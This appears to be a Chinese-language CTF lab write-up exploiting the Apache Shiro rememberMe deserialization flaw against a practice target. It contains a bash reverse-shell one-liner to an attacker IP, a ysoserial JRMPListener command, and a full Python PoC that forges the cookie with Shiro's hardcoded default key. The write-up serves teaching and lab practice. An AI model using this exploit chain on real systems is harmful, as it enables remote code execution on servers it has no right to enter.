 ### 漏洞描述

Apache Shiro默认使用了CookieRememberMeManager，其处理cookie的流程是：得到rememberMe的cookie值 >  Base64解码–>AES解密–>反序列化。然而AES的密钥是硬编码的，就导致了攻击者可以构造恶意数据造成反序列化的RCE漏洞。

### writeup

访问靶机地址

![](./20200515192039.png)

攻击机监听4437端口

![](./20200515192250.png)

访问 http://www.jackson-t.ca/runtime-exec-payloads.html 将准备执行的命令进行加密

反弹shell指令

```
bash -i >& /dev/tcp/攻击机IP/4437 0>&1
```

![](./20200515192539.png)

运行指令（通过 ysoserial中的JRMP监听模块，监听 6666 端口并执行反弹shell命令，ysoserial自行寻找下载）

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 6666 CommonsCollections4 '加密的反弹shell指令'
```

![](./20200515193053.png)

利用POC伪造cookie内容

python shiro.py 攻击者IP:攻击者监听的java端口

![](./20200515193242.png)

POC
```
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES
def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial-0.0.6-SNAPSHOT-all.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])    
print "rememberMe={0}".format(payload.decode())
```

发送伪造的cookie

```
http 目标登入地址 'Cookie:上一步生产的cookie'
```

![](./20200515193549.png)

反弹shell获取flag

![](./20200515193835.png)